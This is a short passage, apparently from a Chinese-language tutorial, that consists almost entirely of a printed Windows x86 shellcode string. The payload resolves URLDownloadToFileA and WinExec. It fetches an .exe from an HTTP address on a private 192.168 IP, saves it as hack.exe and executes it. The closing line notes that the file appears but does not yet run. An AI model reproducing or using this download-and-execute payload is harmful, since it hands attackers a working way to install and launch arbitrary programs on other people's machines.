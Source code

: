 ![](images/结果.png)

得到shellcode代码

```shell
\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\x18\xe8\xb0\xff\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x6f\x6e\x50\x68\x75\x72\x6c\x6d\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x41\x52\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x73\x65\x64\x74\x68\x2f\x67\x6f\x6f\x68\x36\x2e\x31\x33\x68\x36\x38\x2e\x35\x68\x39\x32\x2e\x31\x68\x3a\x2f\x2f\x31\x68\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x54\x5b\x31\xd2\x52\x52\x53\x51\x52\x8b\x45\xd8\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xac\x5a\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xe8\xfe\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\xb7\xfe\xff\xff\x31\xd2\x52\xff\xd0
```

执行结束后出现文件，但还不能执行

![](images/结果2.png)